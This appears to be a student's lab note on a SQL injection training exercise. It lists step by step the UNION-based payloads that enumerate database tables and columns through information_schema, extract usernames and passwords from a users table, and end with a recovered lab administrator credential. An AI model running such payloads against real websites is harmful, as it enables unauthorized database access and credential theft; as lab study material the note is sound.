 ```yaml
---
title: Lab 3 - Listing DB contents
updated: 2023-06-06T15:39:17.0000000+01:00
created: 2023-06-04T18:32:35.0000000+01:00
---
```


![image1](../../../../_resources/image1-14.png)
We need to find the table name that contains credentials. We can do this by searching up the schema from the DB.

***SELECT \* FROM information_schema.tables***

We need to place this in a UNION attack:

'UNION+SELECT+\*,NULL,+*information_schema.tables--*

**TRAP:** Note that \* (all) cannot be used here, we need to specify a table name - I'd think because getting all details wouldn't be a string input thus the column can't read it. Also, do NOT use quotation marks around the "table_name"

'UNION+SELECT+table_name,NULL,+*information_schema.tables--*

*Output:*
![image2](../../../../_resources/image2-13.png)

Out of these, the administrable role authorizations table looks the most interesting.
Grabbing details from a table:

Now that we know all the tables in the database, we need to get the columns and data from them.

***SELECT \* FROM information_schema.columns WHERE table_name = 'Users'***

**'UNION+SELECT+table_name,NULL+FROM+information_schema.tables--**

**TRAP:** Not all the table names appear on the website, you can filter and look in the HTML code for users.

If you look inside the HTML, you can see a table named:
![image3](../../../../_resources/image3-10.png)

We can then look inside the columns of the table:

'UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_wewmmz'--

![image4](../../../../_resources/image4-7.png)
We then need to look up these tables for details:

***'UNION+SELECT+username_cfmcne,+password_mzfqbr+FROM+users_wewmmz--***
![image5](../../../../_resources/image5-4.png)

Now we have admin creds:

Administrator:4v964lb4fwwvx4relhz3
